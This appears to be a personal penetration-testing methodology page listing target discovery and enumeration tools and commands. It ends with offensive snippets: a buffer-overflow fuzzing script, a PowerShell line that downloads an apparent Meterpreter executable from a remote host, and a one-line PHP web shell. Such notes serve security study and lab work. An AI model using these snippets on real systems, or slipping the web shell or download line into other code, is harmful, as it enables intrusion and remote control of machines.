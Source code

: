 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:
	- arp-scan --localnet
    - ping sweep - using nmap -sn > insert subnet here
    - passive listening using Wireshark/tcpdump

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow.  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell*** 
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

<?php system ($_GET[“cmd”]); ?>  




        
